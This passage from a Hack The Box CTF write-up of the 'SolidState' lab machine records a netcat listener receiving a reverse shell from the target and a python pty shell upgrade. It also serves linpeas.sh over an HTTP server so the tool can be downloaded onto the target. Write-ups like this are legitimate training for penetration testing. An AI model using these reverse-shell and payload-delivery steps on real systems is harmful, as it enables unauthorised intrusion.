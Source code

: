 ```
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.

```

I found out this trick from [Rana Khalil's blog](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/solidstate-writeup-w-o-metasploit).

Next, I'll set up a netcat listener to receive the reverse shell.

```
nc -nlvp 1234
```

Then I SSH-ed into Mindy’s account so that the content of the `bash_completion` directory is loaded.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/SolidState]
└─$ nc -lvnp 1234      
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.51] 51532
ls
bin
user.txt
whoami
mindy
python -c 'import pty; pty.spawn("/bin/bash")'
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```
 
And I got a reverse bash shell with no restrictions, and since it wasnt't a better shell, I upgraded it to a better shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
 
I tried running `sudo -l`, but it said `command not found`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ sudo -l
sudo -l
bash: sudo: command not found
```

So, next, I decided to upload and run `linpeas.sh` to attack the target machine

Firstly, I started a server in the same directory that the script resides.

```python
python3 -m http.server 8081
```

Then, on the target machine, I moved to `/dev/shm` where I had write and execute privileges and downloaded the `Linpeas` script
